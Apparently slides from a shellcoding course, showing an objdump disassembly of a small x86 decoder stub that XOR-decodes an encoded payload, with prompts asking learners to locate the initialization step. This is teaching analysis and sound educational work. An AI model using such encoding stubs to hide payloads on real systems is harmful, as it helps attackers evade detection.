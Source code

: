 
## Shellcoding [4/7 analysis | 1/6 initialization]

.left-column[
### .twitch-emote.small[DOOMGuy] brainstorming ..

- Where is the initialization step?
- What does it do?
]
.right-column[
```objdump-c
0:   29 c9                  sub    %ecx,%ecx
2:   74 14                  je     0x18
4:   5e                     pop    %esi
5:   b1 14                  mov    $0x14,%cl
7:   46                     inc    %esi
8:   8b 06                  mov    (%esi),%eax
a:   83 e8 09               sub    $0x9,%eax
d:   34 9f                  xor    $0x9f,%al
f:   32 46 ff               xor    -0x1(%esi),%al
12:  88 06                  mov    %al,(%esi)
14:  e2 f1                  loop   0x7
16:  eb 05                  jmp    0x1d
18:  e8 e7 ff ff ff         call   0x4
1d:  31 70 aa               xor    %esi,-0x56(%eax)
20:  92                     xchg   %eax,%edx
21:  d7                     xlat   %ds:(%ebx)
22:  2d ce af e1 a8         sub    $0xa8e1afce,%eax
27:  cc                     int3
28:  8d a8 e1 db 9d a1      lea    -0x5e62241f(%eax),%ebp
2e:  81                     .byte  0x81
2f:  fe                     (bad)
30:  ba                     .byte  0xba
31:  db                     .byte  0xdb
```
]

---

## Shellcoding [4/7 analysis | 2/6 initialization]

```objdump-c
0:   29 c9                  sub    %ecx,%ecx
2:   74 14                  je     0x18
4:   5e                     pop    %esi
5:   b1 14                  mov    $0x14,%cl

18:  e8 e7 ff ff ff         call   0x4
```

### Let's try to understand what these instructions do..

---